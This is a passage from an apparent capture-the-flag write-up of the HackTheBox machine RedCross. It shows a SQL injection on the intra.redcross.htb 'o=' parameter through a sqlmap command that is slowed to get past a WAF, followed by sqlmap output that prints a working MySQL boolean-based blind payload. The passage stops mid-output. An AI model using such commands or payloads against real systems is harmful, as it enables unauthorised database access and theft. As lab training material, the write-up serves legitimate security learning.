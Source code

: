 ![1554219749998](https://0xdfimages.gitlab.io/img/1554219749998.png)

#### SQLi

On submitting the UserID filter, I’m sent to
`https://intra.redcross.htb/?o=1&page=app`, where `o=` is the id filtered on.
If I try with a `'` in there, `https://intra.redcross.htb/?o=1'&page=app`:

![1554221201416](https://0xdfimages.gitlab.io/img/1554221201416.png)

Just running `sqlmap` will grind to a halt and break because of the WAF on the
box. I’ll look at manual SQLi in Beyond Root. But I can still use `sqlmap` if
I put in `--delay=1`, which puts a one second delay between each request. That
also makes this take forever. I’d recommend running it and walking away:

    
    
    root@kali# sqlmap -r app.request --delay=1 --batch --dump
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.2.10#stable}
    |_ -| . [)]     | .'| . |
    |___|_  [,]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org
    
    [*] starting at 17:35:40
    
    [17:35:40] [INFO] parsing HTTP request from 'app.request'  
    [17:35:40] [INFO] testing connection to the target URL           
    sqlmap got a 301 redirect to 'https://intra.redcross.htb/?o=9&page=app'. Do you want to follow? [Y/n] Y
    [17:35:41] [INFO] testing if the target URL content is stable
    [17:35:42] [WARNING] GET parameter 'o' does not appear to be dynamic
    [17:35:43] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
    [17:35:44] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
    [17:35:44] [INFO] testing for SQL injection on GET parameter 'o'
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    ...[snip]...
    GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 354 HTTP(s) requests:
    ---                                                                       
    Parameter: o (GET)                                                           
        Type: boolean-based blind                                         
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: o=9') RLIKE (SELECT (CASE WHEN (1947=1947) THEN 9 ELSE 0x28 END))-- OmFQ&page=app
                                                                                 